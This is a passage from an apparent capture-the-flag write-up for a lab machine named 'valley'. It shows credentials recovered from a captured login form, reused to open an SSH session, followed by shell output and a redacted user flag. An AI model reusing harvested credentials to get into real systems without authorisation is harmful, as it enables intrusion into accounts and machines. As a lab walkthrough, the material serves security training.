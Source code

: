 ![Screenshot](./images/screen7.png)

### `index.html` of size 42 bytes. What's in it?
```
uname=valleyDev&psw=<redacted>&remember=on
```

### Another account in our pocket! Maybe we can use this one to log in via ssh?
```bash
ssh valleyDev@<ip>
```

```bash
valleyDev@valley:~$ id
uid=1002(valleyDev) gid=1002(valleyDev) groups=1002(valleyDev)
valleyDev@valley:~$ ls -lha
total 24K
drwxr-xr-x 5 valleyDev valleyDev 4.0K Mar 13  2023 .
drwxr-xr-x 5 root      root      4.0K Mar  6  2023 ..
-rw-r--r-- 1 root      root         0 Mar 13  2023 .bash_history
drwx------ 3 valleyDev valleyDev 4.0K Mar 20  2023 .cache
drwx------ 4 valleyDev valleyDev 4.0K Mar  6  2023 .config
drwxr-xr-x 3 valleyDev valleyDev 4.0K Mar  6  2023 .local
-rw-rw-rw- 1 root      root        24 Mar 13  2023 user.txt
valleyDev@valley:~$ cat user.txt 
THM{redacted}
```
